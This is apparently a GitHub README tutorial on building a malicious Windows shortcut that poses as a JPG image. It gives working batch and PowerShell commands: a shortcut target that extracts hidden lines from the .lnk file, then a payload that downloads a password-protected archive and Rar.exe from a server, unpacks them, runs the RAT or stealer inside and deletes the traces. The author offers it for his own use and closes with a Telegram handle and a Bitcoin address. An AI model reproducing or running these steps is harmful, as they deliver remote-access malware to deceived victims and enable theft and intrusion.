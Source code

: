 <h1 align="center">lnk artifact</h1>

<p align="center">
	<i>Toxic shortcuts in Windows: an old artifact, not forgotten by hackers, but partially forgotten by forensics..</i>
</p>

-------
I welcome all friends, this is by no means an advertisement of a third-party resource, but you can find more detailed information on [Habr](https://habr.com/ru/company/group-ib/blog/493906/).

In this topic, I will show only how to use it for my own purposes.
All we need is the winrar archiver, or rather Rar.exe and our malicious RMS or RAT or BOTNET or STEALER file, etc. etc. Next, we pack our malicious file called install.exe into an archive with a password, password: 123321, the name of the archive at the output is install.rar, upload the Rar.exe and install.rar files to our server and give both files permission 777 to read, write and execution.

We have already dealt with the introductory part, let's proceed to the assembly.

We will mask it under the picture, therefore we create a shortcut on the desktop and indicate the code in the location:

---
~~~bat
%COMSPEC% /c "copy /Y image.lnk %temp%\1&findstr /c:"@ECHO" %temp%\1>%temp%\s.bat&start /MIN %TEMP%\s.bat&exit"
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/W1HMyrnr/1.png" />
</p>

Next, we set the name of what is in the location: image

<p align="center">
	<img src="https://i.postimg.cc/2Sh0n0my/2.png" />
</p>

Next, go to the properties of the lnk file and remove the working folder

<p align="center">
	<img src="https://i.postimg.cc/Kv62ZpJ8/3.png" />
</p>

And optionally we put any icon, but since we want to disguise it as a picture, we select the jpg icon.

<p align="center">
	<img src="https://i.postimg.cc/4dY1WPtr/4.png" />
</p>

Open image.lnk in any text editor Notepad++ in my case, version 7.8.6 (Open np++ and transfer our lnk file to the main window) and add our code to download and launch the backdoor from the server to the next line:

---
~~~bat
@ECHO OFF && IF EXIST "%temp%\lnkexp.txt" (exit) ELSE echo lnkexp»%temp%\lnkexp.txt && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/install.rar', '%temp%/install.rar') && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/Rar.exe', '%temp%/Rar.exe') && %temp%\Rar.exe x -t -o+ -p123321 %temp%\install.rar %temp%\ && %temp%\install.exe && del /f /q %temp%\install.rar && del /f /q %temp%\Rar.exe && exit
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/26znJfJb/5.png" />
</p>


That's all, our lnk is ready, and everything that I think further is intuitive.
Link to youtube: [www.youtube.com](https://youtu.be/LOv5SX6uaHM)

### Support
Telegram: @Official_Mr_Robot

BTC: bc1q09rsrzf3ztdzly4twc3zmsh94sfxhh4wp05eha
